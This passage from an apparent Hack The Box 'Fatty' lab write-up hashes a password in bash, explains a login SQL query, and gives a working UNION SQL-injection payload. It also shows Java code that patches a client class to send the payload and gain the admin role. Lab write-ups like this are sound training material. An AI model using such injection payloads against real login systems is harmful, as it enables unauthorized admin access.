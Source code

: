 ```bash
root@darkness:~# hash=$(echo -n "qtcclarabibiclarabibimakeseverythingsecure" | sha256sum)
root@darkness:~# echo ${hash^^} | cut -d ' ' -f1
5A67EA356B858A2318017F948BA505FD867AE151D6623EC32BE86E9C688BF046
```

Now that we have gathered enough information about the database-backend and the information formatting, let us exploit the SQL-injection to get administrative access.

### Getting admin access by exploiting the SQL-injection

The SQL-query that is executed upon login looks as follows:

```sql
SELECT id,username,email,password,role FROM users WHERE username='INPUT'
```

We control the INPUT part of this query. We can use a UNION injection to change the output of the query, which allows us to change our current role to admin.

We have to supply id,username,email,password and the role we want to have.

In our case this would be: `<NUMBER>,qtc,'chronos',password,'admin'`.

The full SQLi payload looks like this:

```sql
'UNION ALL SELECT 2,'admin','chronos','password','admin' FROM users;#
```

We can add this code to the `ClientGuiTest.class` file.

Upon clicking the login button instead of doing this:

```java
String username = ClientGuiTest.this.tfUsername.getText().trim();
String password = new String(ClientGuiTest.this.tfPassword.getPassword());
ClientGuiTest.this.user = new User();
ClientGuiTest.this.user.setUsername(username);
ClientGuiTest.this.user.setPassword(password);
```

We simply run the SQL-injection:

```java
String sqli = "'UNION ALL SELECT 2,'admin','chronos','password','admin' FROM users;#";
ClientGuiTest.this.tfUsername.setText(sqli);
ClientGuiTest.this.tfPassword.setText("password");
ClientGuiTest.this.user = new User(sqli, "password", false);
```

As before, we compile the class, overwrite the jar file, sign and run the client.

![SQLi](/assets/htb/Fatty/client-sqli.png)
